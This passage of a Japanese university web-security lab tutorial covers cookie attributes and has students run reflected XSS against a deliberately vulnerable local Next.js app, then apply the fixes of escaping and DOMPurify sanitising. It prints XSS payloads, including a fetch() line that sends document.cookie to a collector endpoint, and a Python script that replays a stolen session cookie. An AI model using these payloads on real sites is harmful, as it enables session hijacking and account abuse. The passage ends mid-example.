Cookie に「HttpOnly属性」をつけないと「XSS攻撃によるセッションハイジャックが云々…」とか言われたのですが意味不明です🫠。分かりやすく解説してください。
4.4.3 Secure属性
この属性が設定されている Cookie は、HTTPS 通信のときだけ送信されるようになります。HTTP (≠HTTPS) による非暗号化通信で Cookie が漏洩 (盗聴) することを防ぐために使用します。
- ローカル環境で
npm run devやnpm run buildで Next.js アプリを起動すると HTTP になります。そのため、この属性をつけると Cookie の送信が制限されるので注意 してください。Vercel にデプロイ・ホストすれば HTTPS 通信が使用されるため Cookie は問題なく送信されます。
4.4.4 SameSite属性
SameSite 属性 は、どのような条件において Cookie を送信するかを制御するための属性 であり、主に CSRF攻撃 (Cross-Site Request Forgery) 対策 として利用されます。設定可能な値は次の3つです。
プロンプト例
CSRF攻撃とは何ですか🫠。Cookie の基本知識はある前提で、イメージしやすく説明してください。
strict- 同一サイトからのリクエストでのみ Cookie が送信されます。
- 例えば、外部サイト (
https://fuga.jp/) からhttps://hoge.com/に移動した場合、hoge.comのSameSite=Strictな Cookie は送信されません。 - その結果、すでにログイン済みであっても、
https://hoge.com/に移動直後は未ログイン状態のように見えることがあります。 - セキュリティは高い一方で、UX が低下する場合があります。
lax:- 同一サイトからのリクエストに加え、トップレベルナビゲーション（リンクのクリックなど）による GET リクエストで Cookie が送信されます。
- 例えば、リンククリックや URL の直接入力によるページ遷移がこれに該当します。
none:- すべてのクロスサイトリクエストで Cookie が送信されます。
- 外部サイトをまたいだ Cookie 利用（サードパーティ Cookie）が必要な場合に使用します。
- この場合、Secure 属性（HTTPS 限定）との併用が必須となります。
- Cookie がクロスサイトで送信されるため、CSRF トークンや Origin / Referer の検証など、別の CSRF 対策を併用する必要があります。
なお、SameSite が未指定の場合、主要ブラウザでは Lax
として扱われます (Lax-by-default)。ただし、古いブラウザではクロスサイトリクエストでも Cookie
が送信される場合があるため、安全性と挙動の一貫性のためにも、原則として SameSite
は明示するようにしてください。
プロンプト例
Cookie の「SameSite属性」の strict と lax の違いが分かりません。strict にするとログイン周りの UX が悪くなると言われたのですが、具体例で説明してください。
4.4.5 定着確認
以下の説明または挙動は、「正しい」か「正しくない」かを答えよ。
- https://hoge.com/
にログイン済みのユーザが、https://fuga.jp/ にあるリンクをクリックして
https://hoge.com/mypage に移動した。hoge.com の Cookie が
SameSite=Strictであるとき、ログイン済みとしてのマイページが表示される。- 答え: 正しくない。
SameSite=Strictのとき、外部サイトからの遷移（クロスサイトのトップレベルナビゲーション）では Cookie が送信されません。そのため、認証 Cookie が利用できず、ログイン済みとして扱われません。
- 答え: 正しくない。
- https://hoge.com/ にログイン済みのユーザが、ブラウザのアドレスバーに
https://hoge.com/mypage を直接入力してアクセスした。Cookie が
SameSite=Strictのとき、Cookie は送信され、ログイン済みとしてのマイページが表示される。- 答え: 正しい。
URL の直接入力は、外部サイト経由のリクエストではありません。そのためSameSite=Strictでも Cookie は送信され、ログイン状態が維持されます。
- 答え: 正しい。
- https://fuga.jp/ にあるリンクをクリックして
https://hoge.com/ に移動した。 Cookie が
SameSite=Laxのとき、Cookie は送信される。- 答え: 正しい。
SameSite=Laxでは、トップレベルナビゲーションによる GET リクエスト であれば Cookie が送信されます。通常のリンククリックはこの条件に該当します。
- 答え: 正しい。
- https://fuga.jp/ のページ内に埋め込まれた
<img src="https://hoge.com/profile">に対する GET リクエストにおいて、SameSite=Laxの Cookie は送信される。- 答え: 正しくない。
画像の読み込みは、ユーザの明示的なページ遷移ではありません。トップレベルナビゲーションでもないためSameSite=Laxでは Cookie は送信されません。
- 答え: 正しくない。
- https://evil.com/ 上のフォームから POST で
https://hoge.com/delete-account にリクエストが送られた。このとき
SameSite=Laxの Cookie は送信される。- 答え: 正しくない。
SameSite=Laxで許可されるのは、基本的に トップレベルナビゲーションの GET です。クロスサイトからの POST リクエストでは Cookie は送信されないため、CSRF 対策として有効となります。
- 答え: 正しくない。
- https://evil.com/ 上のフォームから POST で
https://hoge.com/delete-account
にリクエストが送られた。
SameSite=Noneの Cookie は送信される。- 答え: 正しい。
SameSite=Noneは Cookie のクロスサイト送信を許可する設定です。CSRF リスクが高くなるため注意が必要です。
- 答え: 正しい。
SameSite=Strictは、SameSite=Laxより CSRF 攻撃への耐性が高い。- 答え: 正しい。
Strict は外部サイトからの Cookie 送信をより厳しく制限します。そのため、攻撃者サイトからユーザになりすましてリクエストを送る CSRF への耐性が高くなります。
- 答え: 正しい。
SameSite=Strictにすると、外部サイトから通常のリンクで遷移してきたユーザがログイン状態を失ったように見えることがある。- 答え: 正しい。
外部サイトからの遷移では Cookie が送信されないためです。その結果、「ログイン済みのはずなのにログインしていないように見える」という UX 上の違和感が発生することがあります。
- 答え: 正しい。
4.4.6 適切なCookie属性の設定
Cookie の属性を適切に設定することで、セキュリティを向上させつつ、ユーザビリティを保った
Cookie の運用が可能になります。なお、上記以外にも Path や Max-Age
などの Cookie
の属性が存在します。それらについて、ウェブや生成AIを使って概要を把握しておいてください。
プロンプト例
Cookie の「Max-Age属性」と「Expires属性」の違いについて教えてください。また、どのように使い分けますか。
Cookie の「SameSite属性」と「CSRF攻撃」の関係が分かりません🫠。そもそも「CSRF攻撃とは何か？」から教えてください。
4.4.7 JavaScriptから Cookie を確認
ブラウザのデベロッパーツールの「コンソール」からは、JavaScriptコードを対話的に実行すること ができます。例えば、コンソールに
document.cookie と入力すれば、現在表示しているウェブサイト (ドメイン) のなかで
HttpOnly属性 が設定されていない Cookie の値を取得することができます。

視点を変えれば、第3者👿によって、そのウェブサイトに悪意あるJavaScriptコード
(document.cookieの戻り値を外部送信するようなコード)
が埋め込まれた場合、HttpOnly属性 がついていない Cookie
が窃取される可能性があるということになります。
プロンプト例
Cookie が窃取されたからって何か困ることがあるのですか？セッションIDなんて単なる数字の羅列でしょ？セッションID の Cookie にHttpOnly属性を付け忘れてたら、先輩が激おこ😡💢なんですが…
5 「ニュース」のコンテンツ
このコンテンツは region という Cookie に設定された値
(OSAKA、TOKYO など)
に応じて、表示されるニュースが変わるようになっています。
5.1 クライアントサイド (フロントエンド) の処理
このページにアクセスすると、クライアントサイド (フロントエンド側) で、Cookie のなかに
region が存在するかをチェックして、存在しない場合は初期値として
OSAKA を設定します。
useEffect(() => {
// async 化することで setRegion を非同期コールバック内で呼ぶ
const init = async () => {
const regionStr = await Promise.resolve(Cookies.get("region"));
// Cookieが存在しない もしくはデタラメな値の場合は OSAKA をセットする
if (!regionStr || !Object.values(Region).includes(regionStr as Region)) {
setSessionCookie(Region.OSAKA);
return;
}
setRegion(regionStr as Region); // Cookieから取得した地域をセット
};
init();
}, [setSessionCookie]);上記の 第48行目 で呼び出している setSessionCookie
は、以下のような自作関数になっています。以降の脆弱性実験のために、あえて path や
sameSite をコメントアウトしています。
// Cookie をセットする関数の定義
const setSessionCookie = useCallback((region: Region) => {
Cookies.set("region", region, {
expires: 7, // 有効期限（7日間）
// path: "/api/news", // 💀 省略すると "/" が設定される
// sameSite: "strict", // 💀 適切に設定しないとCSRF脆弱性が生じる
secure: false, // 💀 本番環境(HTTPS)では true にすべき
});
// 👆 セキュアに利用する観点から各設定の意味を調べてみてください
}, []);ブラウザを閉じても Cookie には値が残るので (有効期限が7日間に設定されているので)、再度
/news にアクセスしたときには 最後に表示していた地域のニュースが表示 されるようになっています。
Chrome において Cookie の管理はプロファイル単位
Chrome では「Cookie
はプロファイル毎に管理されている」ため、あるプロファイルで起動した Chrome
で地域を「沖縄」に設定して region=OKINAWA が Cookie
に設定されていても、別のプロファイルで起動した Chrome で /news
にアクセスすれば初期値の「大阪」が表示されます。
地域毎の「ニュース記事」は、useState で生成したステート変数の
region の変更をトリガーに /api/news に対する fetch
を実行することで取得しています。以下の 第74行目 のように fetch
のオプションに credentials: "include" を設定することで、JavaScript から
HTTPリクエストを送るときにも Cookie が付与されるようになります。
useEffect(() => {
const fetchNews = async () => {
try {
setIsLoading(true);
const res = await fetch(ep, {
method: "GET",
credentials: "include", // Cookieも送信
cache: "no-store",
});
const data: ApiResponse<NewsItem[]> = await res.json();
if (data.success) {
setNewsItems(data.payload);
} else {
console.error(data.message);
}
} catch (e) {
console.error("ニュース記事取得失敗", e);
} finally {
setIsLoading(false);
}
};
fetchNews();
}, [region]);5.1.1 演習
第74行目 を credentials: "omit", (＝Cookieを送信しない設定)
に変えるとドロップダウンリストから地域を変更しても、常に「大阪」の記事しか取得できなくなることを確認してください。
5.2 サーバサイド (バックエンド) の処理
ウェブAPI /api/news にアクセスがあったときの処理は
src/app/api/news/route.ts に記述されています。サーバサイドでは、Cookie の値
(region=XXXXX) に応じて DB からのデータ取得条件を変えています。
// リクエストに含まれるクッキー region の値を regionStr に取得
const cookieStore = await cookies();
const regionStr = cookieStore.get(cKey)?.value ?? Region.OSAKA;
// 文字列を列挙子 Region.XXXX に変換（不正な文字列は Region.OSAKA にする）
const region = Object.values(Region).includes(regionStr as Region)
? (regionStr as Region)
: Region.OSAKA;
// DBから記事を全件取得。実設計では take/skip でページネーションすべき
const newsItems: NewsItem[] = await prisma.newsItem.findMany({
where: { region }, // 検索条件
orderBy: { publishedAt: "desc" },
});5.3 SWR について
このセクションについては、周囲の学生と比較して早めに進んでいる学生のみ、実習時間中に取り組んでください。その他の学生は、スキップして宿題として取り組んでください。
SWR (Stale-While-Revalidate) は、データ取得をより効率的・快適に行うための React / Next.js
向けライブラリです。useState と useEffect
を使って記述していたデータ取得 (fetch)
の処理を、より高機能かつシンプルに記述することができます。特に、キャッシュにある直近のデータ
(stale) を即座に表示しつつ、裏側で最新のデータを取得 (revalidate) する戦略
によって、UX の向上が期待できます。
5.3.1 SWR を使用しない実装
src/app/news/page.tsx
のなかで、第66行目から第90行目にかけての処理
(useState と useEffect のフェッチ処理) は…
//【基本的な実装】ここから
const [newsItems, setNewsItems] = useState<NewsItem[]>([]);
const [isLoading, setIsLoading] = useState(true);
useEffect(() => {
const fetchNews = async () => {
try {
setIsLoading(true);
const res = await fetch(ep, {
method: "GET",
credentials: "include", // Cookieも送信
cache: "no-store",
});
const data: ApiResponse<NewsItem[]> = await res.json();
if (data.success) {
setNewsItems(data.payload);
} else {
console.error(data.message);
}
} catch (e) {
console.error("ニュース記事取得失敗", e);
} finally {
setIsLoading(false);
}
};
fetchNews();
}, [region]);
//【基本的な実装】ここまで5.3.2 SWR を使用した実装
現状ではコメントアウトされている 第96行目から第116行目
にかけての useSWR を使った処理に置き換えることができます。
//【💡SWRを利用した実装】ここから
const fetcher = useCallback(async (endPoint: string) => {
const res = await fetch(endPoint, {
credentials: "same-origin",
cache: "no-store",
});
return res.json();
}, []);
const { data: news, isLoading } = useSWR<ApiResponse<NewsItem[]>>(
ep,
fetcher,
);
const newsItems = useMemo<NewsItem[]>(
() => (news && news.success ? news.payload : []),
[news],
);
useEffect(() => {
mutate(ep); // 再検証(キャッシュ無効化して再取得)
}, [region]);
//【💡SWRを利用した実装】ここまで第114行目 から 第116行目 では、region
が変わった際にキャッシュを明示的に破棄し、最新のデータ取得を強制する処理をしています。mutate(ep)
は、引数 ep (実体は /api/news)
から最新データを取得する命令になります。
プロンプト例
Next.js で、useState と useEffect を組み合わせて api からデータをフェッチしてくる処理を書いていたのですが、先輩からコードレビューで「useSWR を使ったほうがいいよ！」と言われました。SWR とか聞いたことがないのですが、使っている人はいるのでしょうか？マニアックな先輩しか使わないようなマイナーなライブラリなら手を出したくないのですが…😅
Next.js の useSWR の mutate って関数の使いどころが分かりません。ウェブAPIからデータを再フェッチ（手動で強制更新）したいときに使うのですか？
5.3.3 演習
第66行目から第90行目 をコメントアウトして、
第96行目から第116行目
のコメントアウトを解除してください。その後、/news
が同様に機能することを確認してください。
また、useSWR を使った方がわずかに UX が向上していることを確認してください (ニュースからトップページに移動して、その後、再びニュースに戻ったときの記事が表示されるまでの時間が短くなっているはずです)。
6 「ショップ」のコンテンツ
ショップ (http://localhost:3000/shop)は Cookie を利用してショッピングカート内の商品を保持する機能 を持ったサンプルです。AIの支援を受けながら、以下のコードを読解してください。
src/app/shop/page.tsx… フロントエンドsrc/app/api/products/route.ts… 商品一覧の取得 (GET)src/app/api/cart/route.ts… カート情報の取得と更新 (GET/PATCH)
「ニュース」では クライアントサイドで Cookie を発行
していましたが、「ショップ」では サーバサイド
(src/app/api/cart/route.ts) で Cookie
を発行しています。なお、Cookieの属性設定に不適切なものがありますが、次の「XSS脆弱性」のセクションに関係するものなので、そのままにしておいてください。
7 XSS脆弱性
XSS (Cross-Site Scripting: クロスサイトスクリプティング) は、ウェブページのなかに、外部から 悪意のあるJavaScriptコード を埋め込むことで、ユーザのウェブブラウザ上で「意図しない処理 (JavaScriptプログラム) を強制実行させる脆弱性」です。
例えば、掲示板やコメント欄などに <script>alert("XSS")</script>
のような「HTMLタグ」が投稿されたとき、それがサーバサイドで、適切に サニタイズ (無害化)
やエスケープ処理がされないままに そのまま「HTML」としてブラウザに出力
されると、他の閲覧者のブラウザ上でそのスクリプト
(<script>alert("XSS")</script>) が実行されてしまいます。
実行される JavaScriptコード が単にアラートを表示する程度のものであれば大した問題ではありません。しかし、強制実行される JavaScriptコード が
- Cookie情報の窃取
- 別のサイト (フィッシングサイト) へのリダイレクト
- ユーザの意図しない操作 (XX予告の投稿操作やアカウント削除操作)
といった場合があり、これは非常に大きな問題となります。
プロンプト例
ウェブアプリ開発およびXSS脆弱性の文脈で「サニタイズ処理」と「エスケープ処理」とはなんですか。また、それらの違いについて教えてください。
7.1 実は「ニュース」には反射型XSSの潜在的リスクがある
ニュース (src/app/news/page.tsx) ですが、実は http://localhost:3000/news?name=寝屋川タヌキ
のような クエリパラメータ(name)
を受け付ける仕様となっています。
そして、そのクエリパラメータを無害化処理やエスケープ処理することなく画面に出力する実装 となっています。これは「反射型XSS (Reflected XSS)」と呼ばれるタイプの脆弱性を持った超NGな実装となります。

上記の例のように name=寝屋川タヌキ
をクエリパラメータとして与える分には特段の問題は生じません。しかし、name=【JavaScriptプログラム】
が与えられたとき非常に危険な動作をします。
プロンプト例
URLのクエリパラメータにJSを仕込むようなのが反射型XSSであると聞きました。それ以外にもXSSにタイプがあるのですか？
7.2 クエリパラメータの処理
まずは src/app/news/page.tsx
のなかでクエリパラメータが、どのように処理されているかを確認しています。
{name && (
<div className="mt-4 ml-4 flex text-sm text-slate-600">
{/* サニタイズされていない値を dangerouslySetInnerHTML で出力（💀超危険） */}
<span dangerouslySetInnerHTML={{ __html: name }} className="mr-1" />
さん、こんにちは！
</div>
)}XSS脆弱性の原因となっているのは 第29行目 と 第149行目
になります。いずれか一方で適切な処理がされていれば XSS
を防ぐことはできます。例えば、第149行目 を
<span className="mr-1">{name}</span>
とするだけでXSS攻撃は失敗します。
なお、反射型XSSは
詳細はこちらをご覧ください
のようにリンクに仕込まれる可能性があります。
このセクションでは、XSS
の危険性を理解するために攻撃コードを実際に動かします。自分の管理下にあるローカル環境
(localhost) のみで実行してください。
他人のサイトや外部サービスに対して同様の操作を行うことは絶対に避けてください。
このようにサニタイズされていない状態では「どのような XSS リスクが生じるのか」を体験的に確認していきます。
dangerouslySetInnerHTML は、バニラ JavaScript（＝ライブラリを使わない素の
JavaScript）の innerHTML に近い役割を持つ仕組みです。
プログラミング3の ブログアプリの実装
のなかでも、ブログ記事の記事本文をリッチに表示するために dangerouslySetInnerHTML
を使用しましたね。
7.2.1 例1 (無害)
http://localhost:3000/news?name=寝屋川タヌキ上記のURLをブラウザのアドレスバーにコピペすると次のようになります。
ここでは、クエリパラメータが単なるテキスト (寝屋川タヌキ)
だったので、特に問題になることは起きません。
7.2.2 例2
http://localhost:3000/news?name=<font size=20 color="brown"><b>寝屋川タヌキ</b></font>上記のURLをブラウザのアドレスバーにコピペすると次のようになります。

ここでは、クエリパラメータに HTMLタグ が含まれています。その結果、そのHTMLタグが反映された出力となっています。
7.2.3 例3 💀
http://localhost:3000/news?name=<img src=x onerror="alert('Hoge!')">上記のURLをブラウザのアドレスバーにコピペすると次のようになります。

<img src=x onerror="alert('Hoge!')"> は、XSS攻撃でよく使われる HTML
タグです。
<img src="x">によって、存在しない画像を読み込もうとする。- 読み込み失敗 →
onerrorが実行される。 - 結果として
alert('Hoge!')という JavaScript が実行され、画面に「Hoge!」というアラートが表示される。
アラートが実行されたところで実害はありませんが、任意の JavaScript が実行できてしまうことが非常に深刻な問題 です。
7.2.4 例4 💀💀
http://localhost:3000/news?name=<img src=x onerror="document.write('(ToT) => ',document.cookie)">上記のURLをブラウザのアドレスバーにコピペすると次のようになります。

クエリパラメータに設定されているのは「HttpOnly属性が設定されていない Cookie
を document.cookie
によって読み出して画面に出力するJavaScript」のコードです。危険な香りがしてきましたが、自分の
Cookie が、自分の見ている画面に出力されるだけで、特に実害はありません。
7.2.5 例5 💀💀💀
次のクエリパラメータには document.cookie で取得した Cookie を
http://localhost:3000/api/xss 宛に送信して、その後、/
に移動するような JavaScript プログラムが設定されています。
http://localhost:3000/news?name=<img src=x onerror="fetch('http://localhost:3000/api/xss?c='+document.cookie);window.location.href='/'">上記は、そのまま貼り付けても機能しません。name=
以降の文字をURLエンコーディングする必要があります。
以下のサイトなどを利用して
<img src=x onerror="fetch('http://localhost:3000/api/xss?c='+document.cookie);window.location.href='/'">
の部分だけURLエンコーディングします。
以下のような URL が得られます。
http://localhost:3000/news?name=%3Cimg+src%3Dx+onerror%3D%22fetch%28%27http%3A%2F%2Flocalhost%3A3000%2Fapi%2Fxss%3Fc%3D%27%2Bdocument.cookie%29%3Bwindow.location.href%3D%27%2F%27%22%3Eこれをアドレスバーに貼り付けて実行すると、自分の Cookie が
http://localhost:3000/api/xss
宛に送信されます😇。ここでは実験のために、自分のウェブアプリのウェブAPIに情報を送っていますが、実際の攻撃時には、攻撃者😈の用意した
URL となります。
プロジェクトフォルダのなかの src/app/api/xss/route.ts
を読解してもらうと分かると思いますが、http://localhost:3000/api/xss?c=HogeFugaPiyo
のようにクエリパラメータをつけてアクセスすると、c= の部分、つまり
HogeFugaPiyo を DB の stolenContent
に保存する仕組みになっています。
実際に被害を確認してみましょう。次のコマンドで DB の内容を確認します。
npx prisma studio次のように、見事に自分の Cookie が攻撃者の DB の StolenContent
テーブルに記録されてしまいました😇

ここで cart_session_id が窃取されたことは極めて問題です。窃取した
cart_session_id を Cookie
にセットすれば、攻撃者が自由にカートの内容を操作できるためです。
以下は、Python プログラムですが窃取した Cookie を使ってカートに商品IDが A-002
のアイテム (＝月収7桁を叩き出すCSS講座【完全無料】) を 9999 個突っ込むものになっています。
import requests
import json
url = 'http://localhost:3000/api/cart'
# ここに窃取したセッションIDをセット
cart_session_id = '00000000-0000-0000-0000-000000000000'
cookies = {'cart_session_id': cart_session_id}
headers = {'Content-Type': 'application/json'}
payload = {'productId': 'A-002', 'quantity': 9999}
res = requests.patch(
url=url,
data=json.dumps(payload),
headers=headers,
cookies=cookies
)
print(f'ステータスコード: {res.status_code}')
is_success = res.json().get('success')
print(f'res.success: {is_success}')
if is_success:
res = requests.get(
url=url,
cookies=cookies
)
cart_items = res.json().get('payload')
print(f'カートの内容: {json.dumps(cart_items, indent=2)}')以上で、Cookie に適切な属性を設定することの重要性、適切なサニタイズやエスケープ処理をすることの重要性が理解できたと思います。
今回の Cookie 窃取は、Cookie に「HttpOnly属性」をつけていれば防ぐことができました。また、そもそもクエリパラメータを HTML として出力しないようにエスケープ処理をしていれば、XSS の実行自体を防ぐことができました。HTML の一部を許可したい場合でも、適切なサニタイズ処理を行えば被害を防げます。
HttpOnly は Cookie の読み取りを防ぐ対策であって、XSS そのものを修正する対策ではありません。実際の開発では「Cookie 属性を適切に設定すること」と「外部入力を安全に出力すること」の両方が必要です。
7.3 エスケープ処理の方法
エスケープ処理とは < や > などの
HTMLとして解釈される可能性がある文字 を < や
> などに置き換える処理を指します。ここで < や
> は 文字実体参照
と呼ばれるもので、ウェブブラウザでは、これを「HTML」ではなく「文字」としての <
や > として表示 (レンダリング) します。
例えば…
<img src=x onerror="alert('Hoge!')">
…に対してエスケープ処理をかけると…
<img src=x onerror="alert('Hoge!')">
…となります。ここで、" は " に、' は
' に変換されています。
Next.js (React) では、安全のために エスケープ処理がデフォルト適用
される仕様となっているため、以下のように書き換えれば src/app/news/page.tsx
は安全なコードとなります (dangerouslySetInnerHTML
だけが、例外的にエスケープ処理が適用されません)。
エスケープ処理がされたときは、次のように画面がレンダリングされます。

7.4 サニタイズ (無害化) の方法
エスケープ処理を適用すると全ての HTMLタグ や JavaScript
が無効化されますが、一部の安全なタグ
(<br />、<font>) や、属性
(size=、color=) だけは 有効化したい場合
もあります。たとえば、ブログ投稿機能をもったウェブアプリなどでは簡単な装飾などを許可したい場合があります。
この場合は、isomorphic-dompurify
というサニタイズライブラリが便利です。isomorphic-dompurify は、Next.js
のクライアントコンポーネント (use client)
で動作するもので、以下のように使用します。
まず、ファイルの冒頭で isomorphic-dompurify をインポートします。
import DOMPurify from "isomorphic-dompurify";// 💀 URLパラメータから値を取得（この時点では未検証・未無害化）
const rawName = searchParams.get("name");
// ✅ サニタイズ（無害化）
const name = DOMPurify.sanitize(rawName ?? "", {
ALLOWED_TAGS: ["b", "i", "font", "br"], // 許可するタグ
ALLOWED_ATTR: ["color"], // 許可する属性
});上記のようにすると、太字タグ <b></b>、斜体タグ
<i></i>、フォントタグ
<font></font>、改行タグ <br>
のみを許可し、さらにタグの属性のうち color=
のみを許可するようなサニタイズ処理がされます。許可されていない該当しないタグや属性は削除
(≠無害化) されます。そのうえで dangerouslySetInnerHTML を使用して
name を出力してください。
以上のようなサニタイズ処理を適用したとき、次のようなURLでアクセスすると…
http://localhost:3000/news?name=<font color="blue" size="100"><b>萱島ウサギ</b></font>次のように出力されます
(size=の属性は適用されていないことに着目してください)。

プロンプト例
React において
dangerouslySetInnerHTMLは XSS リスクがあるとされていますが、それでも実務であえて使用されるのはどのような場面ですか？dangerouslySetInnerHTMLを使う代表的なユースケース、どのような条件を満たせば比較的安全に使えるのか、も含めて解説してください。
7.4.1 演習
サニタイズ処理を適用してください。
7.5 Flask (Python) などでもXSS脆弱性に注意
Next.js (React) は、通常の JSX
のテキスト出力では自動的にエスケープ処理が行われるため、XSS攻撃が成立しにくい設計になっています。ただし、dangerouslySetInnerHTML
を使って HTML を直接挿入する場合や、DOM API を直接操作する場合、外部ライブラリが生成した HTML
を扱う場合などは注意が必要です。
一方で、**Flask (前期実験のもう一方のテーマで使用)
などで、テンプレートエンジンを使わずに文字列連結で HTML を組み立て、そのまま
Response(..., content_type="text/html") として返すと、次のように XSS
が成立しやすくなります。
from flask import Flask, request, Response
app = Flask(__name__)
@app.route("/")
def greet():
name = request.args.get("name", "")
html = f"こんにちは{name}さん"
